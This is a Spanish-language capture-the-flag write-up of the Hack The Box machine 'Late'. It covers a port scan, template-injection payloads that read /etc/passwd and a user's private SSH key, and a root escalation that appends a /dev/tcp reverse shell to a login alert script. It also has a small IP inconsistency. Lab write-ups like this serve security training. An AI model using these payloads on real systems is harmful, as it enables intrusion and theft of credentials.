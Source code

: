 ```yaml
---
title: "Late"
description: " balh as fsdsd sd"
pubDate: "Nov 08 2022"
heroImage: "/placeholder-hero.jpg"
url: "/basics"
---
```


- - -

## Escaneo de puertos

Hacemos nuestro escaneo de puertos como es usual y verificamos cuáles están abiertos y qué servicios están corriendo en cada uno, por ejemplo en esta  Máquina tenemos el puerto 80 y 22

<Highlighter
text=' nmap -p- --open --min-rate 5000 -Pn 10.10.11.156 -oG puertosAbiertos'
/>

Vemos que en el puerto 80 está corriendo un servidor web <i>late.htb</i> lo agregamos a nuestro archivo <i>/etc/hosts</i> de nuestra máquina

<Highlighter text='10.10.11.156 late.htb' />
Enumeración

  Mientras hacemos un recorrido por la página notamos que en la parte de abajo tenemos unos nuevos enlaces que apuntan a <i>images.late.htb </i>,
  lo añadimos a <i>/etc/hosts </i>para luego ingresar a la URL, y vemos la siguiente vista:
<button className="js-modal-trigger" data-target="modal-js-example">
    <img
      layout="fill"
      src='/fuzzing_enumeration.png'
      alt='Enumeración de la maquina Late en Hack The Box'
    />
  </button>

Archivo hosts
En el archivo <i>/etc/hosts</i> de nuestra máquina añadimos:
<Highlighter text='10.10.11.156 images.late.htb' />
Nos vamos a la nueva URL:
  <img
    layout="fill"
    src="/late_1.webp"
    alt="Vista images.late.htb de la maquina Late en hack the box"
  />

  Vemos en el título que esta página usa Flask, necesitamos saber como funciona este conversor de imagen a texto
  creamos nuestra imagen con Photoshop, GIMP, etc. Testeamos la App para vulnerabilidades comunes como XSS, SQLi y CMDi
  abrimos e ingresamos payloads para estas vulnerabilidades enganchamos que una SSTI funciona <i>&#123; &#123; 7 * 7 &#125; &#125;</i>
  Lo subimos a la web y nos retorna un archivo llamado <i>result.txt</i> con el siguiente contenido.

  La palabra “Late” nos dice porque un SSTi pudo funcionar (Temp”late”). Al intentar conseguir nuestro RCE al subir una imagen con el siguiente payload por ejemplo
<Highlighter
  text="{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/etc/passwd’).read() }}"
/>
  La web lo procesa y al convertir imagen a texto algunos caracteres son añadidos y otros se pierden
<Highlighter
  text="f{ ‘’_lsd__. _mro__.subclasses__([‘/etc/passwd’).read() }}"
/>
  Después de verificar esto notamos que tenemos ejecución de remota de comandos y podemos ver el archivo /etc/passwd
  Notamos que hay un usuario "svc_acc" con su llave ssh privada y capacidad de login.
  Volvemos a subir nuestro payload, cambiando el path al archivo id_rsa.
<Highlighter
  text="{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/home/svc_acc/.ssh/id_rsa’).read() }}"
/>
  IMAGEN
  Ahora que tenemos el id_rsa hacemos un login con el usuario svc_acc
<Highlighter
  text="chmod 600 id_rsa"
/>
<Highlighter
  text="ssh svc_acc@10.10.10.156 -i id_rsa"
/>

Root
  Descargamos linpeas e intentamos enumerar rutas con privilegios.
  Montamos nuestro servidor
<Highlighter text="python3 -m http.server 8080" />
  Luego en la máquina Late
<Highlighter 
  text="svc_acc@late:~$ wget http://10.10.14.63:8080/linpeas.sh"
/>
<Highlighter text="chmod +x linpeas.sh" />
<Highlighter text="./linpeas.sh" />
  Encontramos el archivo ssh-alert.sh.
<Highlighter text="svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
  #!/bin/bash
  RECIPIENT=”root@late.htb”
  SUBJECT=”Email from Server Login: SSH Alert”
  BODY=”
  A SSH login was detected.
  User: $PAM_USER
  User IP Host: $PAM_RHOST
  Service: $PAM_SERVICE
  TTY: $PAM_TTY
  Date: `date`
  Server: `uname -a`
  “
  if [ ${PAM_TYPE} = “open_session” ]; then
  echo “Subject:${SUBJECT} ${BODY}” | /usr/sbin/sendmail ${RECIPIENT}
  fi
  " />
    Vemos que se ejecuta cada vez que entablamos una sesión
    inspeccionamos los atributos que tiene aunque no tiene el de
    escribir podemos crear un archivo y anexarlo.
  <Highlighter text="svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
    — — -a — — — — e — — /usr/local/sbin/ssh-alert.sh"
  />
    Creamos un archivo file.txt con el payload de Reverse Shell y lo añadimos
    al archivo ssh-alert.sh
  <Highlighter text="bash -i >& /dev/tcp/10.10.14.63/9999 0>&1" />
  <Highlighter text="cat file.txt >> /usr/local/sbin/ssh-alert.sh" />
    Configuramos un netcat en la Late y en nuestra máquina hacemos login.
  <Highlighter text="nc -lvnp 9999"/>

Congratulations leonardo Late has been Pwned!